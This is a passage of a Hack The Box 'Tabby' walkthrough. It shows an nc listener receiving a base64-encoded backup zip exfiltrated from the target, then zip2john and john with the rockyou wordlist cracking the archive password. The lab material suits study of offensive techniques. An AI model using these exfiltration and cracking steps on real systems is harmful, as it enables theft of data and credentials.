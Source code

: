 ```shell
coldfx@Shockwave:~/htb/tabby$ nc -lvnp 4444 | base64 -d > 16162020_backup.zip
Listening on 0.0.0.0 4444
Connection received on 10.10.10.194 46686
coldfx@Shockwave:~/htb/tabby$ md5sum 16162020_backup.zip
f0a0af346ad4495cfdb01bd5173b0a52  16162020_backup.zip
```
#### Cracking hash

We'll use `zip2john` to create the hash in John accessible format:

```shell
coldfx@Shockwave:~/htb/tabby$ zip2john backup.zip > backup.hashes                                                                                                                              
backup.zip/var/www/html/assets/ is not encrypted!                                                                                                                                              
ver 1.0 backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type                                                                                          
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/favicon.ico PKZIP Encr: 2b chk, TS_chk, cmplen=338, decmplen=766, crc=282B6DE2                                                               
ver 1.0 backup.zip/var/www/html/files/ is not encrypted, or stored with non-handled compression type                                                                                           
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=3255, decmplen=14793, crc=285CC4D6                                                              
ver 1.0 efh 5455 efh 7875 backup.zip/var/www/html/logo.png PKZIP Encr: 2b chk, TS_chk, cmplen=2906, decmplen=2894, crc=2F9F45F                                                                 
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/news.php PKZIP Encr: 2b chk, TS_chk, cmplen=114, decmplen=123, crc=5C67F19E                                                                  
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/Readme.txt PKZIP Encr: 2b chk, TS_chk, cmplen=805, decmplen=1574, crc=32DB9CE3                                                               
NOTE: It is assumed that all files in each archive have the same password.                                                                                                                     
If that is not the case, the hash may be uncrackable. To avoid this, use                                                                                                                       
option -o to pick a file at a time.                                       
```

Using `john` we can crack it easily:

```shell
coldfx@Shockwave:~/htb/tabby$ john backup.hashes -w=/usr/share/wordlists/rockyou.txt                                                                                                           
Using default input encoding: UTF-8                                                                                                                                                            
Loaded 1 password hash (PKZIP [32/64])                                                                                                                                                         
Press 'q' or Ctrl-C to abort, almost any other key for status                                                                                                                                  
admin@it         (backup.zip)                                                                                                                                                                  
1g 0:00:00:04 DONE (2020-11-05 20:29) 0.2336g/s 2419Kp/s 2419Kc/s 2419KC/s adminako123..admin422243                                                                                            
Use the "--show" option to display all of the cracked passwords reliably                                                                                                                       
Session completed      
```
